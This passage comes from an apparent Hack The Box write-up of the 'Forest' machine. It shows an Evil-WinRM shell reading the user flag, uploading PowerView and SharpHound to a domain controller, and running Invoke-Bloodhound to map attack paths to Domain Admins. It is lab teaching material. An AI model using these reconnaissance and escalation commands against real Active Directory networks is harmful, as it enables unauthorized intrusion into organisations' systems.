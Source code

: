 ```shell

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type ..\Desktop\user.txt
368cfa08************************
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

Which we definitely can.

## Privesc to Administrator

Since the box is called Forest, I don't anticipate needing to run [winPEAS](https://github.com/carlospolop/PEASS-ng), although I normally would. In this case, I'm going to jump straight to Bloodhound, a tool that can map out relationships in an Active Directory environment to advise us as to what to do next. 
- Install bloodhound and neo4j: `sudo apt install bloodhound neo4j`
- Download PowerView: [[link](https://github.com/PowerShellMafia/PowerSploit)]

I'm going to copy `SharpHound.ps1` and `PowerView.ps1` to the DC using `evil-winrm`'s built in upload and download command:
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ./www/PowerView.ps1 .
Info: Uploading ./www/PowerView.ps1 to .                                      
Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ./www/SharpHound.ps1 .
Info: Uploading ./www/SharpHound.ps1 to .                                         
Data: 1298980 bytes of 1298980 bytes copied

Info: Upload successful!
```

Once I've uploaded both powershell modules, I'll import them by doing `. .\SharpHound.ps1` and `. .\PowerView.ps1`. It might look weird, but this way of doing it has always been most consistent for me.

On my Kali machine, I'm going to start bloodhound by running `bloodhound`, and start the `neo4j` database using `sudo neo4j console`. I'll sign in as needed.

After that's taken care of, I'll run the following command on the DC:
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-Bloodhound -CollectionMethod All -Domain htb.local -ZipFileName lootme.zip
```

This will allow me to collect all of the Active Directory data that this service account has to offer. I'll download the zip file that comes off of it, and drag and drop it right into Bloodhound. After that's unzipped and loaded in, I'll mark `svc-alfresco` as "owned" and look for "Shortest Path to Domain Admins".

![asdf](https://an00brektn.github.io/img/Pasted image 20210903163250.png)

*Your path might look different than mine, but these privesc steps are all the same.*
